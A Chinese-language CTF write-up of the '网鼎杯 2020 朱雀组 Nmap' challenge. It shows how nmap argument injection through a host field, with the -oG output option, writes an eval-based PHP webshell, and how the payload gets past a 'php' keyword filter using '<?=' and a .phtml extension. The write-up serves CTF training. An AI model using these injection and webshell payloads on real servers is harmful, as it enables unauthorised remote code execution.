


# [网鼎杯 2020 朱雀组]Nmap

## 知识点

`nmap写入shell`

## 解题

网页首页为



要我们输入`host`或者`ip`，尝试输入一个`127.0.0.1`



有点类似[[BUUCTF 2018\]Online Tool]([BUUCTF 2018]Online Tool.md)，继续尝试`-oG`输出为`webshell`

```
<?php eval($_POST[1]);?> -oG 1.php
```

发现被过滤，逐段尝试时发现`php`这个词会被过滤,`<?php`可以修改为`<?=`,后面的`.php`修改为`1.phtml`

```
' <?= eval($_POST[1]);?> -oG 1.phtml '
```

如果需要为了保证结果正常，我们可以使用管道符连接(不正常也可以连接`shell`)

```
127.0.0.1 | ' <?= eval($_POST[1]);?> -oG 1.phtml '
```

> 最后单引号前需要多一个空格，否则会报错